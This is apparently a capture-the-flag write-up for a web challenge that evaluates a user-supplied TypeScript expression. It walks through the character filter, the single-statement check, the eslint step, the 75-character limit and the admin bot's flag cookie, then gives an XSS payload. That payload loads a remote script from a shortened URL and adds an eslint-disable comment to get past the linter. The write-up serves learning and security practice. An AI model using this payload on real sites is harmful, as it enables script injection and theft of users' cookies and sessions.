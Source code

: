 # Analysis

- the input should be inside the [space - ~] range basically omitting all `\x` characters.

```ts
if (/[^ -~]|;/.test(input)) {
```

- The input will be parsed to test if it's really one statement

```ts
const file = ts.createSourceFile("file.ts", text, ScriptTarget.Latest);
console.log("statemetns", { statements: file.statements });
if (file.statements.length !== 1) {
  return {
    success: false,
    errors: ["expected a single statement"],
  };
}
```

[Expression Statements]https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Statements/Expression_statement()

Then it will be injected to the string code

```ts
const data = `((): ${type} => (${expression.output}))()`;
```

- Then the input will be linted with eslint to see if it follows the rules

```
  const project = new VirtualProject("file.ts", data);
  const { errors, messages } = await project.lint();
```

Also we have initial checks before running any of the previous.

```ts
if (query.length > 75) {
  return "equation is too long";
```

Also the goal is to steal the admin token

```
  const query = req.query.q ? req.query.q.toString() : "";
  console.log({ query });
  const message = query ? await runQuery(req.query.q as string) : "";
  console.log({ message });
```

- We need xss inside the message to get the flag

```ts
await page.setCookie({
  name: "flag",
  value: FLAG,
  domain: new URL(SITE).host,
});
await page.goto(url, { timeout: 5000, waitUntil: "domcontentloaded" });
await sleep(5000);
```

## Solution

So here is the take:

> Make a single expression statement that gets strings `' + 'payload here'`
> Bypass the eslint, we can do that by adding an eslint hint that disables it
> Make sure the payload doesn't exceed 75 chars length.

## Payload

`'<script src='https://t.ly/Gi-0o'></script>' /_disable-line-eslint_/`

## FLAG

dice{society_if_typescript_were_sound}
